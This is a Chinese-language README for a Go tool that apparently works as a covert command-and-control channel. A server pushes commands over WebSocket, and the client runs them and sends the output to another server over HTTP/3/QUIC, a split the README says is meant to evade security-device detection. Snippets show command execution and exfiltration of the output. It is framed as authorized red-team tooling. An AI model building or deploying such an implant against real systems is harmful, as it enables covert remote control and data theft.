 ### README (中文)

---

# WebSocket & QUIC 客户端-服务器项目

## 概述

此项目展示了基于 Go 的客户端-服务器架构，客户端通过 WebSocket 与服务器通信，并在触发某些事件时通过 HTTP/3（QUIC）发送请求。服务器使用 WebSocket 进行数据交换，同时使用 HTTP/3 发送 QUIC 请求到指定的服务器。

当服务器向客户端发送命令时，客户端执行这些命令，并将结果通过 HTTP/3 请求发送到另一台服务器。

通过不同的通道，将命令和执行结果分开可以使网络流量分析变得更加复杂，隐藏命令和结果，增加安全设备检测和分析的难度。

## 前置条件

- 已安装 Go 1.16+。
- 有效的 TLS 证书和密钥，用于安全的 WebSocket 和 HTTP/3 连接。
- 需要的依赖库：
    - [`gorilla/websocket`](https://github.com/gorilla/websocket)
    - [`quic-go/http3`](https://github.com/quic-go/quic-go)

## 安装与运行

1. **克隆仓库**：
   ```bash
   git clone https://github.com/zhangyang9123/GoWSS-QUIC/.git
   cd GoWSS-QUIC
   ```

2. **安装依赖**：
   确保安装了项目所需的 Go 模块：
   ```bash
   go mod tidy
   ```

3. **生成或配置 TLS 证书**：
   你可以使用 Let's Encrypt 或 OpenSSL 工具生成 TLS 证书和密钥。
   ```bash
   openssl req -x509 -newkey rsa:2048 -keyout server.key -out server.crt -days 365 -nodes
   ```

4. **启动 QUIC 服务器**：
   启动监听 `4433` 端口的 QUIC（HTTP/3）服务器：
   ```bash
   go run server.go
   ```

5. **启动 WebSocket 客户端**：
   运行客户端，它会连接到 WebSocket 服务器，并将请求发送到 QUIC 服务器：
   ```bash
   go run client.go
   ```

## 代码概览

### `server.go`

- **WebSocket 服务器**：
  WebSocket 服务器监听 `:8888` 端口。客户端连接后，服务器可以向客户端发送命令，客户端执行这些命令并返回结果。

- **QUIC 服务器**：
  QUIC 服务器通过 `:4433` 端口处理 HTTP/3 请求，客户端通过该端口发送命令执行结果。

```go
http.HandleFunc("/ws", handleWebSocket)
log.Println("WebSocket server started on :8888")
log.Fatal(http.ListenAndServeTLS(":8888", certFile, keyFile, nil))
```

### `client.go`

- **WebSocket 客户端**：
  客户端通过 TLS 安全的 WebSocket 连接（`wss://`）连接到服务器，监听服务器发送的命令，执行后将结果通过 QUIC 请求发送出去。

- **QUIC 请求**：
  在执行命令并获取结果后，客户端通过 HTTP/3 协议向 QUIC 服务器发送 POST 请求，包含执行命令的结果。

```go
cmd := exec.Command(program, args...)
output, err := cmd.CombinedOutput()
// 发送结果到 QUIC 服务器
req, err := http.NewRequestWithContext(context.Background(), http.MethodPost, "https://127.0.0.1:4433", bytes.NewReader(output))
```

## 工作原理

1. **客户端-服务器通信**：
    - 客户端连接到 WebSocket 服务器（`wss://127.0.0.1:8888/ws`）。
    - 服务器通过 WebSocket 发送命令到客户端，客户端执行命令并将结果返回。
    - 客户端将执行命令的结果通过 HTTP/3 协议发送到 QUIC 服务器（`https://127.0.0.1:4433`）。

2. **随机行为处理**：
   客户端内置了随机逻辑，可以决定是否通过 QUIC 发送命令结果。该逻辑可以根据实际需求进行调整。

## 示例

1. **启动服务器**：
   运行 WebSocket 服务器 (`server.go`)，并同时处理 QUIC 请求。

2. **启动客户端**：
   启动客户端 (`client.go`)，并连接到 WebSocket 服务器。

3. **从服务器发送命令**：
   你可以通过服务器向客户端发送如下命令：
   ```bash
   whoami
   ```

4. **查看结果**：
   客户端将执行命令，并通过 QUIC 请求将结果发送到 HTTP/3 服务器。


---
# 免责声明

此工具仅用于合法授权的企业安全建设活动。如果您需要测试此工具的可用性，请设置您自己的靶机环境。
如果您在使用本工具时有任何违法行为，您应自行承担相应后果，我们不承担任何法律或连带责任。
在安装和使用此工具之前，请仔细阅读并充分理解每一条款的内容。涉及您重要权益的限制、免责声明或其他条款可能会以粗体、下划线或其他形式突出显示。除非您已完全阅读、理解并接受本协议的所有条款，否则请勿安装和使用此工具。您对本协议的使用或任何其他明示或暗示的接受应被视为您已阅读并同意受本协议的约束。